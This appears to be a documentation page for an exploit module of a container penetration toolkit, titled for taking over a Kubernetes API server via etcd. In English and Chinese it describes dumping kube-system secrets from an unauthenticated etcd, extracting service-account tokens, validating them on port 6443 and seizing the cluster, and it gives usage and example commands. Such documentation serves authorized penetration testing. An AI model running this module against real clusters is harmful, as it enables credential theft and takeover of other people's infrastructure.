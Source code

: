 ```yaml
---
title: etcd接管K8s api-server
author: 404tk
date: 2022-04-28
category: Kubernetes
layout: post
---
```


Exploit: etcd-get-k8s-token
-------------
List key and value pairs under the /registry/secrets/kube-system/ in etcd service, regular extract plaintext service-account-token, requests the default port 6443 'K8s API-server' service to verify the validity of the token and take over the cluster.  

遍历`etcd`中`/registry/secrets/kube-system/`前缀下的key、value对，正则提取明文service-account-token，对默认6443端口`K8s api-server`服务进行请求，验证token有效性，可进一步接管集群。  

Usage
-------------
```shell
./cdk run etcd-get-k8s-token (anonymous|default) <endpoint> <cert> <cert_key> <ca>
```  

Example
-------------
```shell
./cdk run etcd-get-k8s-token anonymous http://172.16.61.10:2379
```  
![](/assets/images/etcd_unauth.png)